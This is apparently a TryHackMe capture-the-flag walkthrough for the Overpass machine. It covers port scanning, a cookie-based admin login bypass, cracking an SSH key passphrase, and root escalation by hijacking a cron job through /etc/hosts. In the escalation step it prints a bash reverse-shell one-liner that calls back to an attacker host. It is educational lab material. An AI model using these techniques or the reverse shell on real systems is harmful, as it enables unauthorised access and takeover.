 # TryHackMe-OverPass Machine
## Methodology:
### 1. Enumeration & Scanning
### 2. Enumerating HTTP
### 3. Privilege Escalation
----------------------------------------------------------------------
## 1- Start With Enumeration
#### Scanning the target Machine Using Nmap ==>> `nmap -sC -sV [Target IP]`
```
root@mahmoud:~# nmap -sC -sV 10.10.48.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-23 19:12 EET
Nmap scan report for 10.10.48.101
Host is up (0.66s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.01 seconds

```
### So Here W found out there Two open ports:
### 1- SSH 22 OpenSSH
### 2- HTTP 80 Golang net/http server
-------------------------------------------------------------------
## Enumerating HTTP
#### Then Let's Brute Force to searching the files on the web server
#### using command ` gobuster dir -u http://10.10.48.101 -w ~/Lists/gobuster/Gobuster-Dir-Medium.txt -t 30`
### The Result:
```
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
```
-------------------------------------------------------------------

## Let's Open /admin Directory
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM3.png)
### I have tried the popular credentials... but it's incorrect credentials
### I have opened inspect element to check if there's a js file and i found that there's a 3 js files in debugger
### the login.js is vulnerable...
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Nax/blob/main/img/THM2.png)
### it says that if the response of the authentication request is not “Incorrect Credentials” if the authentication was successful, it then sets the SessionToken to “statusOrCookie”:
### so let's add `cookie: SessionToken=statusOrCookie`
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM4.png)
### The Result:
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM5.png)
#### Let's save this ssh key to file like `key` and now we have the username is `james`
#### move forward to using the SSH2John tool to extract the hash from the key
#### First: `root@mahmoud:~# /usr/share/john/ssh2john.py key > hash` ==> I Extract The Hash From key File so i got a "hash" file
#### Second: `root@mahmoud:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash` ==> Now i got the key: james13
#### Note: this is just a key we will login with it via SSH it's not the james password
#### Now we can log in as james via SSH using the private SSH key and the cracked password. ==> `root@mahmoud:~# ssh -i key james@10.10.48.101`
#### after you logged in you will find user.txt it's your first flag :))
----------------------------------------------------------------------------------
## Privilege Escalation
#### 1. Transferring LinPeas using the Python Simple HTTP Server and Wget:
#### 2. Running LinPeas file you transferred to enumerate the machine:==> It means there is a cron job running as root which executes Curl against overpass.thm/dwnloads/src/buildscript.sh
#### 3. overpass.thm is a points at localhost also the /etc/hosts file can be modified by all users so Replacing the overpass.thm entry in /etc/hosts with the local Kali machine’s IP address from 127.0.0.1 to (Kali machine's IP)
#### 4. Creating a Bash script to reverse shell and connect back to the Kali host
#### The Script Code:
```
bash -i >& /dev/tcp/[Your Kali IP]/[PORT] 0>&1

```
#### 5. Then i will Transferring the reverse shell file "buildscript.sh" to the Target Machine
#### 6. let's open the listener by ncat ==> `nact -lnvp [PORT]`
#### 7. the final step run linPeas file again to execute the reverse shell file "buildscript"
#### 8. You will get a root shell to the machine and the second flag in root.txt
-------------------------------------------------------------------------------------------------------
Happy Hack :))
